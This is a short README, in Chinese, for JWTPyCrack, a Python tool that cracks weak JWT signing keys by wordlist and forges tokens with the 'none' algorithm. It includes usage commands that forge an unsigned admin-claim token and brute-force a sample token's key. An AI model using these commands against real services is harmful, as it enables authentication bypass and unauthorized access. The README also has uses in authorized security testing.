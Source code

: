 # JWTPyCrack
 JWT 弱口令 Key 爆破以及生成 NONE 加密的无 Key 的 JWTString。

![](./PIC/Snipaste_2019-09-05_15-42-06.png)

# 环境
> Python >= 3 
>
>pip install pyjwt

# 使用

该脚本能实现两种攻击方式：禁用哈希重新生成JWT字符串攻击、暴破弱密钥
## 禁用哈希
> python jwtcrack.py -m generate -s {\"admin\":\"True\"}

![](./PIC/Snipaste_2019-09-05_16-09-31.png)


## 暴破弱密钥

> python jwtcrack.py -m blasting -s eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.keH6T3x1z7mmhKL1T3r9sQdAxxdzB6siemGMr_6ZOwU --kf C:\Users\Ch1ng\Desktop\2.txt
![](./PIC/Snipaste_2019-09-05_16-07-58.png)
